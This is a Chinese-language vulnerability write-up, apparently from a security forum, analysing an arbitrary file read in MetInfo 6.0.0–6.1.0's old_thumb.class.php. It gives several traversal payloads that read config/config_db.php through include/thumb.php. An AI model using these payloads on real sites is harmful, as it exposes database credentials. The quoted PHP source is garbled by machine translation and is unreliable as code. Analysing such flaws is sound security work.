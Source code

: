 # Metinfo任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3017](https://www.zhihuifly.com/t/topic/3017)

# MetInfo 任意文件读取

## 一、漏洞简介

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo 6.0.0~6.1.0版本中的 old_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

## 二、漏洞影响

MetInfo 6.0.0
MetInfo 6.1.0

## 三、复现过程

### 漏洞分析

进攻分析
看下\MetInfo6\app\system\include\module\old_thumb.class.php

```
<？php 
＃MetInfo企业内容管理系统
＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

define（‘IN_MET’）或 退出（‘No权限’）;

load :: sys_class（‘web’）;

class  old_thumb  扩展了 网络 {

```
 公共 功能 doshow （） { 全局 $ _M;

    $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;

    if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
        header（“ Content-type：image / jpeg”）; 
        ob_start（）; 
        readfile（$ dir）; 
        ob_flush（）; 
        flush（）; 死 ;         }

    if（$ _M [ 'form' ] [ 'pageset' ]）{ 
      $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

    } else { 
      $ path = $ dir; 
    } 
    $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;

        readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
        ob_flush（）; 
        flush（）; 
    }

} 
```

} `＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。

＃版权所有（C）MetInfo Co.，Ltd.（[http://www.metinfo.cn](http://www.metinfo.cn)）。版权所有。

？>` 
```

从代码中看用看到，$dir直接由$_GET['dir']传递进来，并将../置空。目标是进入到第一个，如果里面的readfile($dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，$dir中必须包含http字符串。里面的将$dir中包含$_M['url']['site']的部分放置空，这里可以不用管。

![image](img/2879451a2cb8d0b4eba5094853878bba.png)

从上面的分析可以构造出有效负载，只要$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用..././来进行目录替换，因为../会被置空，所以最终payload如下

```
?dir=..././http/..././config/config_db.php 
```

```
?dir=.....///http/.....///config/config_db.php 
```

```
?dir=http/.....///.....///config/config_db.php 
```

```
?dir=http\..\..\config\config_db.php 
```

### 漏洞复现

要先找到调用old_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old_thumb.class.php

```
<?php
# MetInfo Enterprise Content Management System
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
define('M_NAME', 'include');
define('M_MODULE', 'include');
define('M_CLASS', 'old_thumb');
define('M_ACTION', 'doshow');
require_once '../app/system/entrance.php';
# This program is an open source system, commercial use, please consciously to purchase commercial license.
# Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
?> 
```

所以我们通过thumb.php将构造好的$dir传入即可。

![image](img/c9fdcf84533ff1258e58d3fc3eeaa2ad.png)

可以看到成功的读取到了config/config_db.php的内容。